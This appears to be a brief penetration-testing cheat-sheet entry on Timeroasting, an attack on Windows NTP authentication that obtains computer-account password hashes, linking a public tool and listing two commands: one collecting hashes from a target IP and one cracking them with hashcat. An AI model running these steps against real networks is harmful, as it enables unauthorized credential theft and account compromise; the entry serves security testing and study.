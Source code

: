 # Timeroasting

### Timeroasting takes advantage of Windows' NTP authentication mechanism, allowing unauthenticated attackers to effectively request a password hash of any computer account by sending an NTP request with that account's RID

## Github repo: https://github.com/SecuraBV/Timeroast

### Steps:

 - sudo ./timeroast.py 10.0.0.42 | tee ntp-hashes.txt

 - hashcat -m 31300 ntp-hashes.txt
